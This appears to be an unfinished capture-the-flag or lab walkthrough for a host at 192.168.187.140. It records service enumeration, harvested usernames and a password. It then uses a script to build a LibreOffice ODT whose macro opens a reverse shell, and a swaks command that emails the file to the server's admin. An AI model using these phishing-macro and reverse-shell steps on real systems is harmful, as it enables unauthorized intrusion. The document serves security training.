 #InProgress 
```IP
192.168.187.140
```
# Enumeration
## SMTP 25
## Finger 79
```
perl finger-user-enum.pl -U ../../users.txt -t 192.168.187.140
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207171044.png?raw=true)
## IMAP 143 imapd 4.62
We discover here 2 things. the first one is that the password discovered in http 8000 works here
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207173958.png?raw=true)
secondly, the server appears to be processing automatically spreadsheets and documents
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207173911.png?raw=true)
We also know that we need to send it to mailadmin 
```
mailadmin@localhost
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207174320.png?raw=true)

## HTTP 443

possible usernames in dir /team
```
agnes
charlotte
ela_arwel
jonas
magnus
martha
```
## HTTP 8000
we find a password
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207172748.png?raw=true)
```
SicMundusCreatusEst
```
## HTTP 2224
mlss
Mercury/32

## FTP 20001 FileZilla ftpd 0.9.41 beta
couldnt find anything interesting

# Exploitation
For the malicious libreoffice odt file we will need to create a macro that executes automatically a revshell
We will use the following script
https://github.com/0bfxgh0st/MMG-LO/blob/main/mmg-odt.py
from
https://github.com/0bfxgh0st/MMG-LO/tree/main
```
python mmg-odt.py windows 192.168.45.228 4444
```

```
sudo swaks -t mailadmin@localhost --from jonas@localhost --attach @file.odt --server 192.168.187.140 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement
